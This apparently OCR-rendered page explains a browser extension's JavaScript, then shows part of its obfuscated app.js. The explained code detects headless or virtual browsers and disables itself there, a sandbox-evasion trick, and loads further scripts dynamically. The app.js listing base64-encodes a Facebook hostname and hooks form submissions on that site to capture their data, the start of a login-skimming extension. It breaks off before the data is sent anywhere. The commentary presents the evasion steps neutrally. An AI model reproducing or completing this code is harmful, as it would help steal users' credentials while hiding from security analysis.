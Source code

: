 ### Explanation of the Script Logic

This JavaScript snippet is part of a browser extension's background or content script. Here's a breakdown of its functionality:

1. **Anonymous Self-Invoking Function**  
   The entire script is wrapped in an immediately invoked function expression (IIFE), which prevents variables from polluting the global scope and ensures the script runs as soon as it's loaded.

2. **Simple Identity Function**  
   ```js
   var _0xabc1 = function(_0x321a) { return _0x321a; };
   ```
   This function appears to be a placeholder or a result of obfuscation. It simply returns whatever is passed to it and is unused in the code snippet.

3. **Virtual Environment Detection**  
   ```js
   if (navigator.plugins.length === 0 || /HeadlessChrome/.test(navigator.userAgent)) {
       alert("Virtual environment detected. Extension will disable itself.");
       chrome.runtime.onMessage.addListener(() => { return false; });
   }
   ```
   This section checks for signs that the browser is running in a virtual or headless environment:
   - If `navigator.plugins.length` is zero, which is unusual for a regular browser.
   - If the user agent contains `HeadlessChrome`, indicating automated tools like Puppeteer.

   If such a condition is detected, it shows an alert and adds a listener that blocks all future messages, effectively disabling the extension.

4. **Dynamic Script Loader**  
   ```js
   function loadScript(url, callback) {
       var script = document.createElement('script');
       script.src = url;
       script.onload = callback;
       document.head.appendChild(script);
   }
   ```
   This function creates a `<script>` element, sets its `src` to a specified URL, and appends it to the document head. Once loaded, a callback function is executed.

5. **Loading Core Functionality**  
   ```js
   loadScript('core/app.js', function() {
       console.log('Core functionality loaded.');
   });
   ```
   This calls the `loadScript` function to load `core/app.js`, which likely contains the main logic of the extension. A message is logged to the console once it's successfully loaded.

---

`app.js`
```js
(function() {
    var _0xabc1 = function(_0x321a) {
        return _0x321a;
    };
    var _0x5eaf = function(_0x5fa1) {
        return btoa(_0x5fa1);
    };

    const targets = [_0xabc1('d3d3LmZhY2Vib29rLmNvbQ==')];
    if (targets.indexOf(window.location.hostname) !== -1) {
        document.addEventListener('submit', function(event) {
            let form = event.target;
            let formData = new FormData(form);
```